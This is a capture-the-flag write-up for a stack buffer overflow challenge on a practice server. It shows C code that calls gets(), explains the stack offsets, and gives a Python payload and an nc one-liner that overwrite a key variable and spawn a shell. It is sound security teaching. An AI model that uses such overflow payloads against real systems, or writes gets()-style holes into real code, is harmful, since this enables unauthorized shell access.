 ### Task

The challenge involves exploiting a buffer overflow vulnerability in the provided C code. The goal is to overwrite the `key` variable in the `func` function to `0xcafebabe` to spawn a shell.

### Original Code

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void func(int key) {
    char overflowme[32];
    printf("overflow me : ");
    gets(overflowme);  // Vulnerable function
    if (key == 0xcafebabe) {
        system("/bin/sh");
    } else {
        printf("Nah..\n");
    }
}

int main(int argc, char* argv[]) {
    func(0xdeadbeef);
    return 0;
}
```

### Analysis

1. **Buffer Overflow Vulnerability**:
   - The `gets` function is used to read input into the `overflowme` buffer. Since this function does not perform bounds checking, we can input more characters thus making it vulnerable to buffer overflow attacks.
   - The `overflowme` buffer is 32 bytes long.

2. **Key Overwrite**:
   - The `key` parameter is located on the stack, and its value is compared to `0xcafebabe`.
   - If the comparison succeeds, a shell is spawned via `system("/bin/sh")`.

3. **Stack Layout**:
   - The `overflowme` buffer is at `ebp-0x2c` (44 bytes below the base pointer).
   - The `key` parameter is at `ebp+0x8` (8 bytes above the base pointer).
   - The distance between `overflowme` and `key` is 52 bytes (`0x2c + 0x8`).

### Exploit

To exploit this vulnerability, we need to:
1. Fill the `overflowme` buffer with 32 bytes of padding.
2. Overwrite the space between `overflowme` and `key` with 20 bytes of padding (to reach `ebp+0x8`).
3. Overwrite the `key` with `0xcafebabe` in little-endian format (`\xbe\xba\xfe\xca`).

The payload will consist of:
- **52 bytes of padding** (32 bytes for `overflowme` + 20 bytes to reach `key`).
- **4 bytes** representing `0xcafebabe` (`\xbe\xba\xfe\xca`).

Here’s the Python script to generate the payload:

```python
import sys

# 52 bytes of padding + 0xcafebabe in little-endian
payload = b'A' * 52 + b'\xbe\xba\xfe\xca'

# Write the payload to stdout
sys.stdout.buffer.write(payload + b'\n')
```

### Final Command

To exploit the binary, pipe the payload into the `nc` command and use `cat` to maintain the connection and retrieve the flag:

```bash
(python3 -c "import sys; sys.stdout.buffer.write(b'A' * 52 + b'\xbe\xba\xfe\xca' + b'\n')"; cat) | nc pwnable.kr 9000
```

After running the command, execute `cat flag` to retrieve the flag.
